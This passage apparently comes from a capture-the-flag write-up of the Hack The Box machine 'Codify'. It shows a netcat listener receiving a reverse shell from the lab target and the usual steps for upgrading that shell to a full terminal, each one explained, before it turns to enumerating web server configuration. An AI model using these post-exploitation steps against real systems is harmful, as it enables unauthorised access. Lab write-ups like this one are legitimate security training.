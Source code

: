 ![Branching](/assets/images/Codify/reverse-shell-web.png)

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.124] from (UNKNOWN) [10.10.11.239] 53976
bash: cannot set terminal process group (1267): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
svc@codify:~$ ^Z
zsh: suspended  nc -lvnp 443
                                                                                                                                                                                        
❯ stty raw -echo;fg
[1]  + continued  nc -lvnp 443
                              reset xterm
svc@codify:~$ export TERM=xterm
svc@codify:~$ export SHELL=bash
```
* ``script /dev/null -c bash``: Spawns a tty
* ``ctrl+z``: puts the shell in background for later doing a treatment
* ``stty raw -echo;fg``: give us the shell back again
* ``reset xterm``: resets the terminal to give us the bash console
* ``export TERM=xterm``: let us do ctrl+l to clean the terminal
* ``export SHELL=bash``: specifies the system that we are using a bash console

Let's enumerate the config files for the webservers:

![Branching](/assets/images/Codify/var-www-enum.png)
